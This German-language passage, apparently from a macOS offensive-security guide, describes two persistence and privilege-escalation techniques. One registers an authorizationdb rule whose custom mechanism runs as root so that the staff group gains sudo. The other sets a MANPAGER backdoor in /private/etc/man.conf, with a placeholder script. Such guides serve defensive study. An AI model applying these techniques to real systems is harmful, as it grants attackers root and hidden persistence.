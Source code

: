 ```bash
cat > /tmp/rule.plist <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>class</key>
<string>evaluate-mechanisms</string>
<key>mechanisms</key>
<array>
<string>CustomAuth:login,privileged</string>
</array>
</dict>
</plist>
EOF

security authorizationdb write com.asdf.asdf < /tmp/rule.plist
```
Die **`evaluate-mechanisms`** wird dem Autorisierungsrahmen mitteilen, dass er **einen externen Mechanismus zur Autorisierung aufrufen** muss. Darüber hinaus wird **`privileged`** bewirken, dass es von root ausgeführt wird.

Triggern Sie es mit:
```bash
security authorize com.asdf.asdf
```
Und dann sollte die **staff-Gruppe sudo**-Zugriff haben (lesen Sie `/etc/sudoers`, um dies zu bestätigen).

### Man.conf

Writeup: [https://theevilbit.github.io/beyond/beyond\_0030/](https://theevilbit.github.io/beyond/beyond\_0030/)

* Nützlich, um die Sandbox zu umgehen: [🟠](https://emojipedia.org/large-orange-circle)
* Aber Sie müssen root sein und der Benutzer muss man verwenden
* TCC-Umgehung: [🔴](https://emojipedia.org/large-red-circle)

#### Standort

* **`/private/etc/man.conf`**
* Root erforderlich
* **`/private/etc/man.conf`**: Wann immer man verwendet wird

#### Beschreibung & Exploit

Die Konfigurationsdatei **`/private/etc/man.conf`** gibt das Binary/Skript an, das beim Öffnen von man-Dokumentationsdateien verwendet werden soll. Der Pfad zur ausführbaren Datei könnte so geändert werden, dass jedes Mal, wenn der Benutzer man verwendet, um einige Dokumente zu lesen, ein Backdoor ausgeführt wird.

Zum Beispiel in **`/private/etc/man.conf`** festgelegt:
```
MANPAGER /tmp/view
```
Und dann erstelle `/tmp/view` als:
```bash
#!/bin/zsh

touch /tmp/manconf

/usr/bin/less -s
```
### Apache2
